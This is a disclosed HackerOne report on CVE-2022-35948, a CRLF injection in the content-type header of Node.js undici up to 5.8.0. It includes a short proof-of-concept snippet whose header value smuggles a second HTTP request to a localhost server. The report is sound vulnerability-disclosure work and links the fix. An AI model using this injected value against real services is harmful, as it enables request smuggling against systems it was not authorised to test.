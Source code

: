 # CVE-2022-35948: CRLF Injection in Nodejs ‘undici’ via Content-Type

## Report Details
- **Report ID**: 1664019
- **URL**: https://hackerone.com/reports/1664019
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-09T15:43:20.620Z
- **Disclosed**: 2022-09-23T17:38:00.876Z

## Reporter
- **Username**: x_h1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
undici library should be protects HTTP headers from CRLF injection vulnerabilities. However, CRLF injection exists in the ‘content-type’ header of undici.request api.

## Impact

```=< undici@5.8.0``` users are vulnerable to CRLF Injection on headers when using unsanitized input as request headers, more specifically, inside the content-type header.

Example:
```import { request } from 'undici'

const unsanitizedContentTypeInput =  'application/json\r\n\r\nGET /foo2 HTTP/1.1'

await request('http://localhost:3000, {
    method: 'GET',
    headers: {
      'content-type': unsanitizedContentTypeInput
    },
})
```

The above snippet will perform two requests in a single request API call:

http://localhost:3000/
http://localhost:3000/foo2

I have submitted the report： https://hackerone.com/reports/1638888
Advisories： https://github.com/nodejs/undici/security/advisories/GHSA-f772-66g8-q5h3
Resolved as of https://github.com/nodejs/undici/releases/tag/v5.8.2

## Attachments
No attachments
